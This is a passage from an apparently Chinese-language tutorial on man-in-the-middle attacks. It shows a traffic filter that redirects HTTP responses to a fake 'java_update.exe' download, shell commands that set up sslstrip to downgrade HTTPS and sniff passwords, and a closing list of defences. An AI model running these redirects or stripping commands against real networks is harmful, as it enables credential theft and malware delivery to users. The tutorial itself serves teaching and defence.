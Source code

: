 ```bash
      msg("doing nothingn");
   } else {
      replace("200 OK", "301 Moved Permanently Location: http://127.0.0.1/java_update.exe ");
      msg("redirect successn");
   }
}
```

## 0x03 SSL密码嗅探

　　对SSL流量的嗅探，可以使用sslstrip这个工具，它的原理就是把所有的https流量降级为http流量。相当于一个中间人的角色，它与服务器建立正常的https廉洁，而与浏览器则使用http连接。使用时需要本机开启流量转发，将80端口的http流量同时转发到10000端口上，在10000端口上使用sslstrip来监听即可：

```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
# sslstrip -l 10000
```

## 0X04 防范MITM攻击的常用方法

1. 将一些机密信息进行加密后再传输，这样即使被“中间人”截取也难以破解。

2. 通过设备或IP异常检测。如用户以前从未使用某个设备或IP访问系统。

3. 通过设备或IP频率检测：如单一的设备或IP同时访问大量的用户帐号。

3. 进行带外认证，具体过程是：系统进行实时的自动电话回叫，将二次PIN码发送至SMS（短信网关），短信网关再转发给用户，用户收到后，再将二次PIN码发送到短信网关，以确认是否是真的用户。